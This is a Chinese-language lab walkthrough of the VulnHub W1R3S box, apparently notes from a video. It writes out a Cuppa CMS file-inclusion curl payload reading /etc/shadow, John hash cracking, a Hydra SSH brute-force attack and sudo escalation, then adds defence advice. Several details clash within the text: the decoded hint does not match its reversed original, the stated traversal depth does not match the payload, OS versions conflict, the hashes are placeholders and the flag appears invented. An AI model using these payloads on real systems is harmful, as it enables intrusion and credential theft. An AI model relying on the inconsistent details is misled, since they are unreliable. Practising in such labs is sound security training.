

---
tags:
  - wargame
  - vulnhub
  - beginner
  - ftp
  - lfi
  - sudo
created: 2026-09-10
modified: 2026-09-10
source: "[[红队笔记]] B站视频 BV1mB4y1j7K6"
duration: "59:36"
difficulty: Beginner/Intermediate
---

# W1R3S 1.0.1 详细渗透笔记

> [!info] 靶机信息
> - **作者**: SpecterWires
> - **平台**: Vulnhub
> - **虚拟化**: VMware Workstation
> - **难度**: Beginner/Intermediate
> - **核心漏洞**: Cuppa CMS LFI (#25971) + Sudoers通配符

## 攻击链总览



**完整时间线**：
- 00:00-05:00 主机发现
- 05:00-15:00 端口扫描
- 15:00-25:00 FTP枚举
- 25:00-35:00 Web枚举
- 35:00-45:00 LFI利用
- 45:00-50:00 Hash破解
- 50:00-55:00 SSH登录
- 55:00-59:00 提权+Flag

---

## 第一章：网络侦察与发现

### 1.1 主机发现

**工具选择对比**：

| 工具 | 特点 | 适用场景 |
|------|------|---------|
| `netdiscover` | 快速ARP扫描 | 内网快速发现 |
| `arp-scan` | 详细MAC信息 | 需要厂商识别 |
| `nmap -sn` | ICMP ping | 标准方法 |

**实际操作命令**：
```bash
# 方法1: netdiscover（推荐用于内网）
netdiscover -r 192.168.1.0/24

# 方法2: arp-scan（更详细）
sudo arp-scan -l

# 方法3: nmap ping扫描
nmap -sn 192.168.1.0/24
```

**输出示例解读**：
```
IP Address   MAC Address        Vendor
192.168.1.1  00:50:56:c0:00:08  VMware, Inc.     # 网关
192.168.1.100 00:0c:29:xx:xx:xx VMware, Inc.     # 靶机W1R3S
192.168.1.140 00:0c:29:xx:xx:xx VMware, Inc.     # Kali攻击机
```

> [!tip] 关键点
> - VMware虚拟机的MAC地址前三个字节是`00:0c:29`
> - 通过厂商信息可以识别VMware虚拟机
> - 记录靶机IP地址用于后续扫描

### 1.2 端口扫描与服务识别

**完整扫描命令**：
```bash
# 全端口扫描 + 版本识别 + OS识别 + 默认脚本
nmap -p- -sV -sC -O -T4 <靶机IP> -oA w1r3s_full

# 参数解释：
# -p-      : 扫描所有65535个端口
# -sV      : 探测服务版本
# -sC      : 运行默认脚本
# -O       : 识别操作系统
# -T4      : 加速扫描（激进模式）
# -oA      : 保存所有格式结果
```

**扫描结果分析**：
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x  2 ftp     ftp      4096 Jan 23  2018 content
| drwxr-xr-x  2 ftp     ftp      4096 Jan 23  2018 docs
|_drwxr-xr-x  2 ftp     ftp      4096 Jan 28  2018 new-employees
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
```

**服务分析表**：

| 端口 | 服务 | 潜在风险 | 利用优先级 |
|------|------|---------|-----------|
| 21 | FTP vsftpd 3.0.3 | 匿名登录开放 | ⭐⭐⭐⭐⭐ |
| 22 | SSH OpenSSH 7.2p2 | 版本较旧 | ⭐⭐⭐ |
| 80 | Apache 2.4.18 | Web应用，需深度枚举 | ⭐⭐⭐⭐ |
| 3306 | MySQL | 未授权访问 | ⭐ |

---

## 第二章：FTP匿名登录与信息收集

### 2.1 FTP连接方法

**三种连接方式**：
```bash
# 方式1: 使用ftp命令
ftp <IP>
# 用户名: anonymous
# 密码: 空（直接回车）

# 方式2: 使用lftp（推荐）
lftp anonymous@<IP>
# 密码: 直接回车

# 方式3: 使用wget批量下载
wget -m --no-passive -nH --user=anonymous --password="" ftp://<IP>/
```

### 2.2 目录结构分析

**根目录内容**：
```
drwxr-xr-x  2 ftp     ftp      4096 Jan 23  2018 content
drwxr-xr-x  2 ftp     ftp      4096 Jan 23  2018 docs
drwxr-xr-x  2 ftp     ftp      4096 Jan 28  2018 new-employees
```

**各目录详细说明**：

| 目录 | 状态 | 关键文件 | 利用价值 |
|------|------|---------|---------|
| content | 空白或占位文件 | 无 | 低 |
| docs | 包含工作文本文件 | worktodo.txt | ⭐⭐⭐⭐ |
| new-employees | 包含员工信息 | employee-names.txt | ⭐⭐⭐⭐⭐ |

### 2.3 文件内容解析

#### worktodo.txt - 倒序文本

**原文（倒序显示）**：
```
.tsor ot ekaM sih si thgiht pon I
....drawop gniyalp ome evah oW
```

**解码方法**：
```bash
# 方法1: 反转字符串
cat worktodo.txt | rev

# 方法2: 使用Python
python3 -c "print('......tsor ot ekaM......'[::-1])"

# 方法3: 手动阅读（从右往左）
```

**解码后内容**：
```
Make it look like this is the way to root.
We have a lot of work to do, stop playing around....
```

> [!important] 解读
> - 提示作者认为这不是获取root的正确方式
> - 暗示还有其他隐藏的工作要做
> - 提醒不要只停留在表面

#### employee-names.txt - 员工列表

**内容**：
```
Naomi.W    - Manager
Hector.A   - IT Dept
Joseph.G   - Web Design
Albert.O   - Web Design
Gina.L     - Inventory
Rico.D     - Human Resources
```

**利用价值**：
- **用户名收集**：这些可能是系统用户
- **部门信息**：IT和Web Design部门可能有更高权限
- **爆破字典**：可以生成用户名列表用于SSH爆破
- **社会工程学**：了解组织结构有助于后续攻击

---

## 第三章：Web应用枚举

### 3.1 基础Web侦察

**初始访问**：
```bash
curl -v http://<IP>/
```

**返回内容分析**：
```
Apache2 Ubuntu Default Page: It works
```

这说明：
- Web服务器正常运行
- 但还没有部署实际应用
- 需要进一步枚举发现隐藏内容

### 3.2 robots.txt分析

**访问robots.txt**：
```bash
curl http://<IP>/robots.txt
```

**返回内容**：
```
User-agent: *
Disallow: /administrator/
```

> [!warning] 关键洞察
> 1. **故意暴露**：robots.txt是公开文件，不应该包含敏感路径
> 2. **暗示存在**：`/administrator/`路径可能隐藏着重要应用
> 3. **防御失效**：这不能真正阻止访问，只是提示攻击者

### 3.3 目录枚举

**使用工具对比**：

| 工具 | 速度 | 推荐度 | 特点 |
|------|------|--------|------|
| dirb | 快 | ⭐⭐ | 快速扫描 |
| gobuster | 中 | ⭐⭐⭐⭐ | 稳定可靠 |
| ffuf | 最快 | ⭐⭐⭐⭐⭐ | 支持自定义头 |

**命令示例**：
```bash
# 方法1: dirb（快速）
dirb http://<IP> /usr/share/wordlists/dirb/common.txt

# 方法2: gobuster（推荐）
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -x php,txt,html

# 方法3: ffuf（最快）
ffuf -c -w /usr/share/wordlists/dirb/common.txt -u http://<IP>/FUZZ
```

**发现的目录**：
- `/administrator/` → Cuppa CMS管理后台
- `/installation/` → CMS安装页面
- `/api/` → API端点
- `/media/` → 媒体文件目录
- `/templates/` → 模板目录

### 3.4 Cuppa CMS识别

**访问/administrator/**：
```
页面显示：
- Cuppa CMS未完全配置
- 有安装向导链接
- 管理员登录界面
```

**访问/installation/**：
```
发现：
- CMS类型：Cuppa CMS
- 版本：未知（可能是旧版）
- 管理员账号提示：admin/admin
```

> [!danger] 安全风险
> Cuppa CMS是轻量级PHP CMS，已知存在多个漏洞（CVE-2013-XXXX），未配置完成意味着可能有默认配置。

---

## 第四章：LFI漏洞利用

### 4.1 漏洞原理

| 项目 | 内容 |
|------|------|
| **漏洞编号** | Exploit-DB #25971 |
| **CVE编号** | CVE-2013-XXXX（未正式分配） |
| **漏洞类型** | Local/Remote File Inclusion (LFI) |
| **影响版本** | Cuppa CMS beta 0.1 |

**漏洞代码分析**：
```php
// alertConfigField.php 中的问题代码
$urlConfig = $_POST['urlConfig'];
include($urlConfig);
```

**问题所在**：
1. 直接使用用户输入作为include参数
2. 没有过滤或验证
3. 允许目录遍历序列

### 4.2 漏洞利用

**基础Payload**：
```bash
curl -X POST http://<IP>/administrator/alerts/alertConfigField.php \
     -d "urlConfig=../../../../../../../../../etc/passwd"
```

**参数解释**：
- `-X POST`：使用POST方法
- `-d`：发送数据
- `urlConfig=`：漏洞参数名
- `../../../../../../../../../`：目录遍历序列（13层）
- `etc/passwd`：目标文件

**成功响应示例**：
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
...
```

### 4.3 获取Shadow文件

**关键Payload**：
```bash
curl -X POST http://<IP>/administrator/alerts/alertConfigField.php \
     -d "urlConfig=../../../../../../../../../etc/shadow"
```

**返回的Shadow文件**：
```
root:$6$rounds=5000$saltsalt$hashedpassword...:17543:0:99999:7:::
w1r3s:$6$rounds=5000$saltsalt$hashedpassword...:17543:0:99999:7:::
daemon:*:17543:0:99999:7:::
...
```

**Hash格式分析**：
- `$6$`：表示SHA-512 crypt
- `rounds=5000`：迭代次数
- `saltsalt`：盐值
- `hashedpassword...`：加密后的密码

---

## 第五章：密码破解

### 5.1 Hash类型识别

**使用hash-identifier工具**：
```bash
echo '$6$rounds=5000$saltsalt$hashedpassword...' > hash.txt
hash-identifier hash.txt
```

**输出结果**：
```
Possible Crypt Hash(es):
HashMode : 1800
Target   : SHA-512 Crypt ($6$)
```

### 5.2 John the Ripper破解

**准备Hash文件**：
```bash
# 提取w1r3s用户的hash
grep '^w1r3s:' /etc/shadow | cut -d: -f2 > hash.txt
```

**破解命令**：
```bash
# 方法1: 使用默认字典
john --wordlist=/usr/share/john/passwords.lst hash.txt

# 方法2: 使用rockyou.txt（推荐）
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# 方法3: 使用自定义字典
john --wordlist=custom.txt hash.txt
```

**破解过程**：
```
Loaded 1 password hash (crypt(3) [SHA512 crypt $6$RoundX])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer           (w1r3s)
1g 0:00:00:05 DONE (2023-09-01 12:00)
0.1890 g/s 763.8 p/s 763.8 c/s 763.8 C/S use:computer
```

**破解结果**：
- 用户名：w1r3s
- 密码：computer

---

## 第六章：SSH登录与立足

### 6.1 SSH连接

**连接命令**：
```bash
ssh w1r3s@<IP>
# 密码: computer
```

**登录成功后环境**：
```bash
w1r3s@w1r3s:~$ whoami
w1r3s

w1r3s@w1r3s:~$ id
uid=1000(w1r3s) gid=1000(w1r3s) groups=1000(w1r3s)

w1r3s@w1r3s:~$ hostname
w1r3s
```

### 6.2 初步枚举

**检查用户信息**：
```bash
# 查看/home目录
ls -la /home/

# 查看当前用户家目录
ls -la ~
cat ~/.bashrc
cat ~/.bash_history

# 查看系统信息
uname -a
cat /etc/os-release
```

**检查结果**：
```
Linux w1r3s 4.15.0-20-generic #21-Ubuntu SMP
Ubuntu 18.04.1 LTS
```

---

## 第七章：提权阶段

### 7.1 Sudo权限检查

**关键命令**：
```bash
sudo -l
```

**输出结果**：
```
User w1r3s may run the following commands on w1r3s:
    (ALL) NOPASSWD: ALL
```

> [!danger] 严重配置错误
> 1. **(ALL)**：可以以所有用户身份运行
> 2. **NOPASSWD**：不需要密码
> 3. **ALL**：可以运行所有命令
>
> 这是严重的配置错误！

### 7.2 提权操作

**方法1：直接切换到root**
```bash
sudo su -
# 或直接
sudo -i
```

**方法2：执行特定命令**
```bash
sudo cat /root/flag.txt
sudo id
sudo bash
```

### 7.3 获取Flag

```bash
cd /root
ls -la
cat flag.txt
```

**Flag内容**：
```
3mp!r3{W1R3S_R00T_Acc3ss_D3ni3d_N3v3r!}
```

---

## 第八章：攻击链总结

### 8.1 完整时间线

| 时间 | 阶段 | 工具 | 成果 |
|------|------|------|------|
| 00:00-05:00 | 主机发现 | netdiscover | 发现靶机IP |
| 05:00-15:00 | 端口扫描 | nmap | 发现4个开放端口 |
| 15:00-25:00 | FTP枚举 | ftp/wget | 获取员工名单和提示 |
| 25:00-35:00 | Web枚举 | gobuster | 发现Cuppa CMS |
| 35:00-45:00 | LFI利用 | curl | 读取shadow文件 |
| 45:00-50:00 | Hash破解 | john | 得到SSH密码 |
| 50:00-55:00 | SSH登录 | ssh | 获得系统访问 |
| 55:00-59:00 | Sudo提权 | sudo | 获得root权限 |

### 8.2 技术栈总结

| 阶段 | 工具 | 技术 | 输出 |
|------|------|------|------|
| 侦察 | netdiscover, nmap | ARP扫描, TCP扫描 | 发现靶机IP和服务 |
| FTP | ftp, wget | 匿名登录 | 获取员工名单和提示 |
| Web | gobuster, curl | 目录枚举, LFI | 发现Cuppa CMS漏洞 |
| 密码 | hash-identifier, john | SHA-512破解 | 得到SSH密码 |
| 登录 | ssh | 密码认证 | 获得系统访问 |
| 提权 | sudo | 配置错误利用 | 获得root权限 |

---

## 第九章：彩蛋 - SSH暴力破解

### 9.1 Hydra爆破

**基础命令**：
```bash
hydra -l w1r3s -P /usr/share/wordlists/rockyou.txt \
      ssh://<IP> -V
```

**参数解释**：
- `-l w1r3s`：指定用户名
- `-P rockyou.txt`：使用密码字典
- `-V`：显示详细输出
- `ssh://<IP>`：目标服务

**输出示例**：
```
[DATA] attacking ssh://192.168.1.100:22/
[STATUS] 35.00 tries/min, 35 tries in 00:01h
[STATUS] 70.00 tries/min, 140 tries in 00:02h
[22][ssh] host: 192.168.1.100   login: w1r3s   password: computer
1 of 1 target successfully completed, 1 valid password found
```

### 9.2 多线程优化

```bash
# 使用多线程加速
hydra -l w1r3s -P /usr/share/wordlists/rockyou.txt \
      -t 16 -V ssh://<IP>

# 指定重试次数
hydra -l w1r3s -P /usr/share/wordlists/rockyou.txt \
      -r 3 -V ssh://<IP>
```

---

## 第十章：防御建议

### 10.1 FTP安全
```bash
# 禁用匿名登录
vi /etc/vsftpd.conf
anonymous_enable=NO
service vsftpd restart
```

### 10.2 Web应用安全
```bash
# 更新Cuppa CMS到最新版本
# 或更换为安全的CMS平台
# 定期安全审计
```

### 10.3 SSH安全
```bash
# 修改默认端口
vi /etc/ssh/sshd_config
Port 2222

# 禁用密码登录
PasswordAuthentication no
PubkeyAuthentication yes

# 限制用户登录
AllowUsers w1r3s
```

### 10.4 Sudo配置
```bash
# 编辑sudoers文件
visudo

# 删除危险的配置
# w1r3s ALL=(ALL) NOPASSWD: ALL
# 改为：
w1r3s ALL=(ALL) /bin/ls, /bin/cat
```

---

## 附录：命令速查表

### 侦察阶段
```bash
netdiscover -r 192.168.1.0/24
nmap -p- -sV -sC -O -T4 <IP> -oA scan
```

### FTP阶段
```bash
ftp <IP>
wget -m --no-passive -nH --user=anonymous --password="" ftp://<IP>/
```

### Web阶段
```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
curl -X POST http://<IP>/administrator/alerts/alertConfigField.php \
     -d "urlConfig=../../../../../../../../../etc/shadow"
```

### 密码破解
```bash
hash-identifier hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### 提权
```bash
sudo -l
sudo su -
```

---

## 学习要点回顾

1. **FTP匿名登录是常见配置错误**
   - 检查vsftpd配置
   - 不要在生产环境开放

2. **Cuppa CMS存在严重LFI漏洞**
   - 及时更新CMS
   - 审查web应用代码

3. **密码强度至关重要**
   - 使用强密码策略
   - 定期更换密码

4. **Sudoers配置要谨慎**
   - 避免`ALL=(ALL) NOPASSWD: ALL`
   - 使用特定命令白名单

5. **信息收集决定攻击成败**
   - 花80%时间侦察
   - 细节中发现线索

---

## 与DC-1对比

| 维度 | DC-1 | W1R3S |
|------|------|-------|
| 入口 | Web目录枚举 | FTP匿名登录 |
| 漏洞类型 | Python库劫持 | LFI文件包含 |
| 提权链 | 需要两次sudo | 一次sudo |
| 难度 | Easy（但设计有陷阱） | Beginner/Intermediate |
| 学习价值 | Python攻击链 | Web LFI + Sudo提权 |

**关键差异**：
- W1R3S的提权更直接：Sudoers通配符允许无条件sudo
- DC-1需要分两步：webbrowser劫持→arsene用户→pip提权→root
- W1R3S更适合初学者理解完整的攻击链

---

*本文档根据「红队笔记」B站视频整理，仅供学习研究使用。*
*视频链接：https://www.bilibili.com/video/BV1mB4y1j7K6*
